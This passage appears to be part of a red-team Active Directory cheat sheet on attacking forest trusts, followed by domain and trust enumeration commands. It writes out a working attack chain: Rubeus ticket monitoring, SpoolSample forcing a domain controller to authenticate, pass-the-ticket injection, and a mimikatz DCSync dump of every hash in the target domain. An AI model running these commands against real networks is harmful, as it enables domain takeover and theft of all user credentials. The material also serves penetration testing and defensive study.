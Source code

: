Exploitation example:

```text
#Start monitoring for TGTs with rubeus:
Rubeus.exe monitor /interval:5 /filteruser:target-dc$

#Execute the printerbug to trigger the force authentication of the target DC to our machine
SpoolSample.exe target-dc$.external.forest.local dc.compromised.domain.local

#Get the base64 captured TGT from Rubeus and inject it into memory:
Rubeus.exe ptt /ticket:<Base64ValueofCapturedTicket>

#Dump the hashes of the target domain using mimikatz:
lsadump::dcsync /domain:external.forest.local /all 
```

Detailed Articles:

* [Not A Security Boundary: Breaking Forest Trusts](https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/)
* [Hunting in Active Directory: Unconstrained Delegation & Forests Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)

## Enumeration using nltest and .Net

## Get Domain Information

```
nltest /DCLIST:DomainName
nltest /DCNAME:DomainName
nltest /DSGETDC:DomainName
```

### Get Current Domain Info

```
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

### View Domain Forest Info

```
[System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()
```

###  View Domain Trust Information

#### Using PowerShell

```
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()

([System.DirectoryServices.ActiveDirectory.Forest]::GetForest((New-Object System.DirectoryServices.ActiveDirectory.DirectoryContext('Forest', 'forest-of-interest.local')))).GetAllTrustRelationships()
```
